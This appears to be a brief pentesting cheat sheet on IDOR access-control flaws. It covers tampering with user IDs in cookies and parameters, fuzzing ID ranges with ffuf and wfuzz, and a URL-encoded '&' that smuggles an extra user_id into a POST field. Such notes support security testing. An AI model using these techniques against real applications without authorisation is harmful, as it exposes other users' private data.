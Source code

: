 ```yaml
---
title: IDOR (Insecure Direct Object References) Attack
description: IDOR is a type of access control vulnerability in web applications.
tags:
    - Web
refs:
date: 2023-03-03
draft: false
---
```


## Find Vulnerabilities from HTML Source Code

First check values of attrivutes on input elements.

```html
<input name="user_id" value="8" >
```

Then try what will happen when you change the Cookie value in a HTTP header.

```txt
Cookie: user_id=12
```

<br />

## Change GET Parameters

### Manual

```sh
/user?id=1
/user?id=2

/admin/posts/1
/john/posts/1

/static/1.txt
/static/2.txt
```

### Automation

```sh
seq 0 100 | ffuf -u https://example.com/user?id=FUZZ -w -

wfuzz -z file,./numbers.txt https://example.com/user?id=FUZZ
```

<br />

## Change POST Parameters

```bash
address=1&user_id=1
address=1&user_id=2

# URL Encode '&'
address=1%26user_id=2
```
